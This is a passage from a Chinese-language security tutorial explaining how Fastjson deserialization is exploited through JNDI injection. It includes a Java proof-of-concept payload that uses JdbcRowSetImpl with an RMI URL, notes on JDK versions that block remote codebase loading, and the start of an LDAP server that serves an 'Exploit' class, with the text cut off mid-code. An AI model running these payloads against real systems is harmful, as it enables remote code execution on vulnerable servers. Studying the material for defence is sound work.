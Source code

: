 刚说了 `conn` 参数必然为空，因此就会执行 `if` 的第二个分支，进行了 JNDI 请求。

因此构造一个 POC 也就十分简单了。

```
import com.alibaba.fastjson.JSON;

public class Eval3 {

    public static void main(String[] args) throws Exception {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\",\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

启动了 `RMIServer` 和 `WebServer` 后执行这段代码即可完成漏洞利用。

## LDAP + JNDI 

2017年 Oracle 发布了新版 JDK 默认禁用了通过存储在命名和目录服务中的 JNDI 对象工厂进行远程类加载。要通过 RMI Registry 或 COS Naming 服务提供者启用远程类加载，请根据需要将以下系统属性设置为字符串“true”：

```
com.sun.jndi.rmi.object.trustURLCodebase
com.sun.jndi.cosnaming.object.trustURLCodebase
```

详细的版本信息如下：

JRE 家庭版 | JRE 安全基线（完整字符串）
---|---
8 | 1.8.0_121-b13
7 | 1.7.0_131-b12
6 | 1.6.0_141-b12

来源：https://www.oracle.com/java/technologies/javase/7u131-relnotes.html

因此安全人员又挖掘到了基于 LDAP + JNDI 的利用方式，流程和 RMI + JNDI 基本相同。

首先是创建一个 LDAP 服务，我们这里使用到了 `unboundid-ldapsdk` 这个库。

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.text.MessageFormat;

public class LDAPServer {
    private static final String javaCodeBase = "http://127.0.0.1:80/";
    private static final String javaClassName = "Exploit";

    public static void main(String[] args) throws Exception {
        int port = 1389;
        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");
        config.setListenerConfigs(new InMemoryListenerConfig(
```